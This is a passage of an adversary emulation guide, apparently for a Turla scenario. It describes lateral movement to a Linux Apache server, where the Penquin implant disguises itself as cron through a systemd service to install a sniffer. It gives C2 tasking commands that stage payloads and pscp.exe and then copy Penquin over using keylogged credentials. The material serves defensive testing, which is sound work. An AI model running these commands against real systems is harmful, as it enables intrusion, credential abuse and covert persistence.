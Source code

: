 <br>

## Step 9 - Lateral Movement to Linux Server

:microphone: `Voice Track:`

Step 9 emulates Turla laterally moving to the Linux Apache server and
installing Penquin.

First, the third CARBON-DLL implant downloads Penquin and `pscp.exe` to
Adalwolfa's workstation, where `pscp.exe` is used with the credentials keylogged
in the previous step to copy Penquin over to the Apache server. Next,
CARBON-DLL downloads changes to the cron service to Adalwolfa's workstation and uses
pscp.exe to also copy the changes to the Apache server.

Lastly, CARBON-DLL downloads `plink.exe` and, using the credentials keylogged in
the previous step, executes Penquin on the Apache server.

Penquin performs the following actions:

* Unpacking a binary (the compiled sniffer) named `cron` and adding executable permissions
* Copying `cron` into `/usr/bin/` as `cron`
* Stopping the cron service
* Creating a cron service file in the `/etc/systemd/system/` folder for `systemd` to execute our cron. Note: The system executes our fake cron before the systems real cron because files located in `/etc/systemd/system/` are executed before files in the `/usr/sbin/cron`
* Reloading and starting the cron service
* Our cron service installs the sniffer and executes real cron as a child process

In summary, Penquin installs a BPF filter and listens on the Apache server's network interface for a specific activation packet.

---

### ☣️ Procedures

* From your Kali C2 server terminal, task the CARBON-DLL implant on Adawolfa's workstation
to download Penquin (named `tmp504e.tmp`).

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 4, "payload": "hsperfdata.zip", "payload_dest": "C:\\Windows\\Temp\\tmp504e.tmp", "cmd": "dir C:\\Windows\\Temp\\tmp504e.tmp"}'
```

* Wait 1 minute and then task the implant to download `pscp.exe`

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 5, "payload": "pscp.exe", "payload_dest": "C:\\Windows\\Temp\\pscp.exe", "cmd": "move C:\\Windows\\Temp\\pscp.exe C:\\Windows\\System32\\pscp.exe && dir C:\\Windows\\System32\\pscp.exe"}'
```

* Wait 1 minute and then task the implant to copy Penquin to the Apache web server using Adalwolfa's credentials.

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 6, "cmd": "echo y | C:\\Windows\\System32\\pscp.exe -pw Password2! C:\\Windows\\Temp\\tmp504e.tmp adalwolfa@10.20.10.23:/tmp/tmp514f524f"}'
```
